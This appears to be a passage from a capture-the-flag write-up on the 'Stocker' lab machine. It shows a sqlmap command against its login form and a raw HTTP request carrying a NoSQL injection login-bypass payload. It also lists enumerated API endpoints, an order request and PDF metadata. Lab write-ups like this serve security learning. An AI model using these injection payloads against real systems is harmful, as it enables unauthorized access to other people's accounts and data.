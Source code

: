### Attack

Nothing interesting here. So we can see if we can do any sql injection in the login form:
```
sqlmap -u 'http://dev.stocker.htb/login' --method post --data "username=angoose&password=pass" --cookie='connect.sid=s%3AI9kigT3WcSgW-Is9eTAxAWmfRppMe6t5.UIsXVI%2FoT0yQ6ZS0JtdABKsCcqBw1IRp53mp5UzQvDg' --random-agen --risk=3 --level=3
```
Didn't work. Since we know that Express, we can also try no-sql injection:
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 55
Origin: http://dev.stocker.htb
DNT: 1
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3ArDy-RApeSmpmS2G8qZfnvBXAoLL1Tszu.gRerm1A0nwOnByrFP0RCYTvb%2BXjG9pPBJDCHhZcScMU
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Additional information, enumerating the website:
* Hugo 0.84.0
* API - /api/products, /api/po/${response.orderId}, /api/order


Sending the order information to figure out the fllow.
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 156
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3AfXnbTUiNIdMOj_RootGAndnItDfZ8xjY.UrNdF4kJe00lNPn5WWzaPwVIbzy2LNTnTzSho8y8Dt4
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```
Information from purchase order for PDF properties or exiftool.
* PDF producer:	Skia/PDF m108
